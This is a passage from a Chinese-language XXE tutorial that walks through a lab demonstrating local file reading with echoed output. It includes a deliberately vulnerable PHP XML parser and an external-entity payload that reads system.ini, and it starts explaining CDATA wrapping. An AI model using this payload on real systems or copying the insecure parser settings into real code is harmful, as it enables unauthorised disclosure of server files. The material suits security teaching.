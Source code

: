    既然能读 dtd 那我们是不是能将路径换一换，换成敏感文件的路径，然后把敏感文件读出来？

   ### **实验一：有回显读本地敏感文件(Normal XXE)**

   这个实验的攻击场景模拟的是在服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件

   本地服务器上放上解析 XML 的 php 代码：

   **示例代码：**

   **xml.php**

   ```php
   <?php
   
       libxml_disable_entity_loader (false);
       $xmlfile = file_get_contents('php://input');
       $dom = new DOMDocument();
       $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
       $creds = simplexml_import_dom($dom);
       echo $creds;
   
   ?>
   ```

   **payload:**

   ```xml
   <?xml version="1.0" encoding="utf-8"?> 
   <!DOCTYPE creds [  
   <!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
   <creds>&goodies;</creds>
   ```

   **结果如下图：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/XXE%E5%9B%9E%E6%98%BE%E8%AF%BB%E6%96%87%E4%BB%B6.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/XXE%E5%9B%9E%E6%98%BE%E8%AF%BB%E6%96%87%E4%BB%B6.png)

   但是因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利，**那么我么要是换成下面这个文件呢？**

   **如图所示：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%B8%A6%E6%9C%89%E7%89%B9%E6%AE%8A%E7%AC%A6%E5%8F%B7%E7%9A%84%E6%96%87%E4%BB%B6.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%B8%A6%E6%9C%89%E7%89%B9%E6%AE%8A%E7%AC%A6%E5%8F%B7%E7%9A%84%E6%96%87%E4%BB%B6.png)

   我们试一下：

   **结果如下图：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E8%AF%BB%E5%8F%96%E7%89%B9%E6%AE%8A%E6%96%87%E4%BB%B6%E6%8A%A5%E9%94%99.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E8%AF%BB%E5%8F%96%E7%89%B9%E6%AE%8A%E6%96%87%E4%BB%B6%E6%8A%A5%E9%94%99.png)

   可以看到，不但没有读到我们想要的文件，而且还给我们报了一堆错，怎么办？这个时候就要祭出我们的另一个神器了——CDATA ，简单的介绍如下(引用自我的一片介绍 XML 的博客)：

   > 有些内容可能**不想让解析引擎解析**执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者
   > “ 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记
   >
   > ```
   > <![CDATA[
   > 
   > XXXXXXXXXXXXXXXXX
   > 
   > ]]>
   > ```
   >
   > 可以输入任意字符除了 ]]> 不能嵌套
   >
   > 用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来